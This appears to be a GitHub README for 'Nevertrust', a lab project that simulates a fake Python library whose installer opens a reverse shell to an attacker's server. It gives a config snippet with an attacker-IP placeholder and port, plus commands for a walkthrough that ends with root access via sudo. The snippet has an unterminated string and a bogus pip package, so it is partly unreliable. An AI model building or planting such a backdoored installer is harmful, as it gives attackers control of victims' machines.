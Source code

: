 # Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

First, you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5009
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
We will be use with two machine, the first one will be Parrot is for the attacker and the second, Kali Linux for the target.


```
python3 server.py
```
![צילום מסך 2024-01-25 065805](https://github.com/ronch11/Nevertrust/assets/71279601/bd3e7152-2010-4b24-b127-b0101115d547)

Now let's install our library on the client
```bash
python3 my_install.py 
```
![צילום מסך 2024-01-25 081905](https://github.com/ronch11/Nevertrust/assets/71279601/c0f5c945-c830-47cb-81ad-5cb2a8d004ea)

![צילום מסך 2024-01-25 082236](https://github.com/ronch11/Nevertrust/assets/71279601/33d66ea4-6800-403f-946b-b18aa26f9a2b)


Now let's check the connction between the sides

we can see that connction success
![צילום מסך 2024-01-25 082621](https://github.com/ronch11/Nevertrust/assets/71279601/f553ad0a-14e1-4f89-9a1e-71149e671a3b)


For see all targets we can use with the command list
![צילום מסך 2024-01-25 083157](https://github.com/ronch11/Nevertrust/assets/71279601/957d25c4-64be-4f98-9372-399362f8ad6a)

To choose the target we use with the command use X
X - will be the choosen index  
![צילום מסך 2024-01-25 083413](https://github.com/ronch11/Nevertrust/assets/71279601/0133d92a-2193-4101-babc-6e7699e8c95c)

Now we can see that we are in the shell of the target!
Let's cheek the IP of the target
![צילום מסך 2024-01-25 084225](https://github.com/ronch11/Nevertrust/assets/71279601/6d212c82-3fe2-42b7-a3b4-d445915f6006)

 We can see that we get the same IP address on the Parrot shell
![צילום מסך 2024-01-25 084416](https://github.com/ronch11/Nevertrust/assets/71279601/a48de220-54ae-49c7-8e5f-24dc1c82101f)

We run the installion on the client without using sudo, so we are the permissions of the currect user
![צילום מסך 2024-01-25 085109](https://github.com/ronch11/Nevertrust/assets/71279601/edbbb725-2b00-40cf-9642-88ecb2ac6bf8)

Now let's run the install with sudo
```bash
sudo python3 my_install.py 
```
![צילום מסך 2024-01-25 085850](https://github.com/ronch11/Nevertrust/assets/71279601/632a0170-091b-4301-9045-5d5f2d8ddadd)

Now let's check wich prmition we are have

![צילום מסך 2024-01-25 085827](https://github.com/ronch11/Nevertrust/assets/71279601/14c8fef0-3976-4d59-9902-46b0d3a4316d)
